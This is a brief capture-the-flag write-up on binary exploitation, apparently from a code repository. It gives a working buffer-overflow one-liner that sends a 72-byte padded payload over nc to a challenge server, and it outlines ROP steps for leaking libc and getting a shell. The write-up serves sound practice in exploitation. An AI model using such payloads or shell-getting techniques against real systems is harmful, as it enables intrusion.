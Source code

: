 # Binary Exploitation

## Greeter : 150p
```
[TARGET] : nc challenges.ctfd.io 30249

[OFFSET] : 72 

[Payload]
python2 -c "from pwn import p64; print 'a'*72 + p64(0x401220)" | nc challenges.ctfd.io 30249
```

## dROPit
```
1. leak address
2. get the libc
3. find the address of system, '/bin/sh' and constructor payload
4. get shell


setvbuf@plt <-- pointer to got


```